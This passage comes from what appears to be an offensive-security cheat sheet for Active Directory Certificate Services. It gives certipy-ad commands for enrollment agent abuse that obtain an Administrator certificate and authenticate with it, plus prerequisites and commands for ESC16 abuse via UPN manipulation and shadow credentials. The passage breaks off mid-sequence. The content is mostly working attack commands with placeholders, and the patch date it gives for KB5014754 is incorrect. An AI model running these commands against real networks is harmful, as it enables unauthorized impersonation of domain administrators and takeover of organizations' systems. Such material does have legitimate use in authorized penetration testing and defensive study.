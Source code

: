 ##### Scenario B: PKINIT/Kerberos Impersonation via Enrollment Agent Abuse (Injecting "Certificate Request Agent" Application Policy)

```console
$ certipy-ad req -u '<USERNAME>@<DOMAIN>' -p '<PASSWORD>' -dc-ip '<RHOST>' -target '<RHOST>' -ca '<CA>' -template 'WebServer' -application-policies 'Certificate Request Agent'
```

```console
$ certipy-ad req -u '<USERNAME>@<DOMAIN>' -p '<PASSWORD>' -dc-ip '<RHOST>' -target '<RHOST>' -ca '<CA>' -template 'User' -pfx '<FILE>.pfx' -on-behalf-of '<DOMAIN>\Administrator'
```

```console
$ certipy-ad auth -pfx 'Administrator.pfx' -dc-ip '<RHOST>'
```

### ESC16: Security Extension Disabled on CA (Globally)

#### Prerequisites

##### Scenario A: With UPN Manipulation (in Compatibility Mode - StrongCertificateBindingEnforcement = 1 or 0)

- Gobal configuration to disable `szOID_NTDS_CA_SECURITY_EXT` (`OID: 1.3.6.1.4.1.311.25.2`) security extension in all certificate issues
- Changeable account's `UPN` to match a target privileged account's `sAMAccountName`

##### Scenario B: Combined with ESC6 (CA allows SAN specification via request attributes)

- Unpatched `CA` missing relevant `security patches` (`May 2025 (KB5014754)`) or subsequent cumulative updates that include it

#### Usage

##### Scenario A: With UPN Manipulation (in Compatibility Mode - StrongCertificateBindingEnforcement = 1 or 0)

```console
$ certipy-ad account -u '<USERNAME>@<DOMAIN>' -hashes '<HASH>' -dc-ip '<RHOST>' -user '<USERNAME>' read
```

```console
$ certipy-ad account -u '<USERNAME>@<DOMAIN>' -hashes '<HASH>' -dc-ip '<RHOST>' -upn 'Administrator' -user '<USERNAME>' update
```

```console
$ certipy-ad shadow -u '<USERNAME>@<DOMAIN>' -hashes '<HASH>' -dc-ip '<RHOST>' -account '<USERNAME>' auto
```

```console
$ export KRB5CCNAME=<USERNAME>.ccache
```
